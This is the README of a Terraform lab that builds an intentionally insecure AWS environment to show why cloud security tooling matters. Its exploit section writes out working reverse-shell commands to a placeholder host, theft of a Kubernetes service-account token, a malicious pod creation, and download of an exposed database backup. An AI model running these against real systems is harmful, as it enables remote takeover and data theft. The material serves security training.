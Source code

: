 # Cloud Security AWS environement
This terraform project deploy EKS,EC2,S3,IAM and VPC without security best practices. This environement can be used to show the importance of cloud security posture management and cloud worload protection solutions. Do not use this project on a production environement

# Topology
![Screenshot]([topology.PNG](https://github.com/WS-Prakash/AWS-Security-Lab/blob/a4a62e3d6e35fac2bd10081f5d09bd63413a72eb/topology.PNG))



# Requirement
- AWS CLI access to the cloud account
- Kubectl installed
- Terraform installed

# Environment
The terraform project deploy the following resources
- The network infrastructure: VPC, subnets, IGW, route tables, security groups
- IAM roles and Policies
- S3 bucket publicaly accessible
- MongoDB installed on an EC2 instance. During the boot, we enable mongodb authentication, take a backup snapshot and store it on the S3 bucket. The ec2 instance has an instance profile which allow full access to aws ec2.
- EKS cluster with Node Group
- Wordrpress and Myql Pods. Wordress is exposed to internet via Kubernetes services with type loadbalancer. Pods has cluster admin rights.
- Open source vulnerability scanners. Kube-bench and kube-hunter

# Installation
The order is important
- Download the terraform project into a local machine
```sh
git clone https://github.com/imsed/cloud-security-aws-environement
cd cloud-security-aws-environement
```
- Deploy the infra module 
```sh
cd infra
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy the mongodb database on an ec2 instance
```sh
cd compute
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy EKS
```sh
cd eks
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy kubernetes pods
```sh
cd kubernetes
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```

- Deploy scanner jobs
```sh
cd scanners
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
# scanners
- You can scan the terraform project using IaC code security scanner like checkov.
```sh
cd ../cloud-security-aws-environement
checkov --directory cloud-security-aws-environement
```
- kube-bench (CIS benchmark). You can view the result of the scan 
```sh
kubectl logs kube-bench-xxx
```
- kube-hunter. You can view the result of the scan 
```sh
kubectl logs kube-hunter-xxx
```
# Exploit misconfiguration

- expoloit the ec2 instance profile from the mongodb ec2 instance
```sh
ubuntu@ip-172-31-13-230:~$ aws ec2 describe-instances

You can create a new ec2 with reverse shell to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)

ubuntu@ip-172-31-13-230:~$ more reverse-shell.sh
#!/bin/bash
bash -i >& /dev/tcp/a.b.c.d/27017 0>&1

ubuntu@ip-172-31-13-230:~$ aws ec2 run-instances --image-id ami-05a8c865b4de3b127 --instance-type t2.micro --user-data file://reverse-shell.sh --security-group-ids <security group id> --subnet-id <subent id> --region <aws region> 
```
- mongodb backups accessible from internet. You can install mongodb in your machine, dowbload the backup and then restore it
```sh
wget <url of the mongodb backup file from s3>
tar -xf mongodb-xxxx.tar
mongorestore mongodb-xxxx
```
- Permissive RBAC permissions. From the wordpress pod you can excute curl command agains the EKS cluster.
```sh
aws eks update-kubeconfig --region <aws region> --name  "name of the eks cluster you deployed"
kubectl exec -it wordrepss... -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
##List all pods running on EKS
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods/
##create a new pod with a reverse shell code to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods \
  -X POST \
  -H 'Content-Type: application/yaml' \
  -d '---
  apiVersion: v1
  kind: Pod
  metadata:
    labels:
      run: mongoclient
    name: mongoclient
  spec:
    containers:
    - image: mongo
      name: mongoclient
      command: ["/bin/bash"]
      args: ["-c","bash -i >& /dev/tcp/a.b.c.d/27017 0>&1"]
'


```
# Destroy environement

```sh
cd cloud-security-aws-environement
cd scanners
terraform destroy
cd kubernetes
terraform destroy
cd eks
terraform destroy
cd compute
terraform destroy
cd infra
terraform destroy
```
